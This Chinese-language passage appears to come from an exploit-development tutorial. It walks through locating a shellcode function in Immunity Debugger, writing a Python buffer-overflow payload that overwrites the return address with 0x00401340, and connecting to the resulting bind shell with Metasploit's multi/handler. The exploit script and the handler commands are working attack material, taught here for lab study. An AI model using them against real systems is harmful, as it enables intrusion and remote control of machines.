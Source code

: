 现在，构建它，让我们在调试器中运行它，以查找`shell_pwn`函数的地址。以管理员身份启动免疫调试器，并使用所需的任何参数选择我们的新代码：

![](../images/00274.jpeg)

然后，点击 run 程序一次。现在，我们正处于该计划的切入点：

![](../images/00275.jpeg)

右键单击主屏幕并导航至搜索|所有引用的文本字符串：

![](../images/00276.jpeg)

你看到`Shellcode Length`了吗？这是`shell_pwn`函数中的一个字符串；现在双击它：

![](../images/00277.jpeg)

程序给我们设定了`Shellcode Length`字符串的确切位置。现在，让我们继续，直到找到函数的开始地址：

![](../images/00278.jpeg)

地址是`0x00401340`。现在，让我们设置攻击代码：

```
#!/usr/bin/python
 from struct import *
 buffer = ''
 buffer += 'a'*27
 buffer += pack("<Q", 0x00401340)
 f = open("input.txt", "w")
 f.write(buffer)
```

现在，运行漏洞代码更新`input.txt`；然后，打开`input.txt`：

![](../images/00279.jpeg)

然后，复制它的内容。返回调试器并再次打开程序并粘贴有效负载：

![](../images/00280.jpeg)

然后，点击跑步程序两次。代码仍在运行：

![](../images/00281.jpeg)

另外，请查看状态栏：

![](../images/00282.jpeg)

我们的外壳代码正在运行，正在等待连接。让我们回到攻击机器，设置处理程序以连接到受害者机器：

```
$ msfconsole
$ use exploit/multi/handler
$ set payload windows/shell_bind_tcp
$ set rhost 192.168.129.128
$ run
```
